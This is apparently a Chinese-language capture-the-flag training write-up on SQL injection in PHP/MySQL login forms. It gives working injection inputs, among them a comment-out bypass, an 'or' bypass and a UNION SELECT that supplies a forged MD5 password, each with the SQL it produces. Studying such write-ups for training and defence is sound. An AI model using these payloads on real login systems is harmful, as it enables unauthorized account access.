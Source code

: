 username输入 `admin'#` 即可登录。

原理：用**Mysql**单行注释符号`#`将后半句AND语句注释掉。

```
$query = "SELECT * FROM users WHERE username='admin'#' AND password='$password'";
```

构成SQL语句

```
SELECT * FROM users WHERE username='admin'
```

故而登录成功。 补充：之所以不是php注释，是因为`#`在双引号中，只会显示它的字面量。

同样可以用`-- `--的后面要加空格，详情参考[MySQL的注释 - 简书](https://www.jianshu.com/p/30ea1bd03cd0)

## 方法二

username输入 `admin' or '1` 即可登录。

构成SQL语句

```
SELECT * FROM users WHERE username='admin' or '1' AND password='$password'
```

这里的`1`可以换成其他非空字符。

因为`or`在`and`的前面，所以可以理解成`username='admin'`和
`'1' AND password='$password'` 进行**或**运算， 因此即使第二部分是**假**，整条语句也是真的。

# Training: MySQL II

从代码可以看到username password分开来验证。通常的利用方法是使用union构造已知MD5值的查询。

查询代码：

```
$query = "SELECT * FROM users WHERE username='$username'";
```

username一栏填写`123' union select 1,'admin',md5('password');#`

构成sql语句：

```
SELECT * FROM users WHERE username='123' union select 1,'admin',md5('password');#'
```

由于最后有个注释符号，所以相当于：

```
SELECT * FROM users WHERE username='123' union select 1,'admin',md5('password');
```

这句话首先通过username=123将原语句报错。因此返回的将会是第二条语句产生的信息。

而我们union select的是直接构造了用户名为`admin`，密码为`password`的md5值。这样就可以让程序误认为我们构造的信息就是它从数据库里面提取得到的信息。

验证密码正确是通过判断： `$result['password']` 和 `$password` 是否一致。

